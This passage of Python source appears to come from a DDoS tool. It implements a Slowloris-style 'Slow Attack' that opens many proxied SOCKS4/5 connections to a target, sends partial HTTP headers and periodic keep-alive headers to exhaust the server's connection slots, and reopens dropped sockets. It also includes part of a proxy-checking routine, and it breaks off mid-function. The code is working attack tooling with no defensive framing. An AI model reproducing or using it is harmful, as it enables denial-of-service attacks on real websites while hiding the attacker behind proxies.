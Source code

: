 				s.send(("Cookies: "+str(cookies)+"\r\n").encode("utf-8"))
			s.send(("Connection:keep-alive").encode("utf-8"))
			
			socket_list.append(s)
			sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
			sys.stdout.flush()
		except:
			s.close()
			proxy = Choice(proxies).strip().split(":")#Only change proxy when error, increase the performance
			sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
			sys.stdout.flush()
	while True:
		for s in list(socket_list):
			try:
				s.send("X-a: {}\r\n".format(Intn(1, 5000)).encode("utf-8"))
				sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
				sys.stdout.flush()
			except:
				s.close()
				socket_list.remove(s)
				sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
				sys.stdout.flush()
		proxy = Choice(proxies).strip().split(":")
		for _ in range(conn - len(socket_list)):
			try:
				if socks_type == 4:
					s.set_proxy(socks.SOCKS4, str(proxy[0]), int(proxy[1]))
				if socks_type == 5:
					s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
				s.settimeout(1)
				s.connect((str(target), int(port)))
				if int(port) == 443:
					ctx = ssl.SSLContext()
					s = ctx.wrap_socket(s,server_hostname=target)
				s.send("GET /?{} HTTP/1.1\r\n".format(Intn(0, 2000)).encode("utf-8"))# Slowloris format header
				s.send("User-Agent: {}\r\n".format(getuseragent).encode("utf-8"))
				s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5").encode("utf-8"))
				if cookies != "":
					s.send(("Cookies: "+str(cookies)+"\r\n").encode("utf-8"))
				s.send(("Connection:keep-alive").encode("utf-8"))
				socket_list.append(s)
				sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
				sys.stdout.flush()
			except:
				proxy = Choice(proxies).strip().split(":")
				sys.stdout.write("[*] Running Slow Attack || Connections: "+str(len(socket_list))+"\r")
				sys.stdout.flush()
				pass
nums = 0
def checking(lines,socks_type,ms,rlock,):
	global nums
	global proxies
	proxy = lines.strip().split(":")
	if len(proxy) != 2:
		rlock.acquire()
		proxies.remove(lines)
		rlock.release()
		return
	err = 0
	while True:
		if err == 3:
			rlock.acquire()
			proxies.remove(lines)
			rlock.release()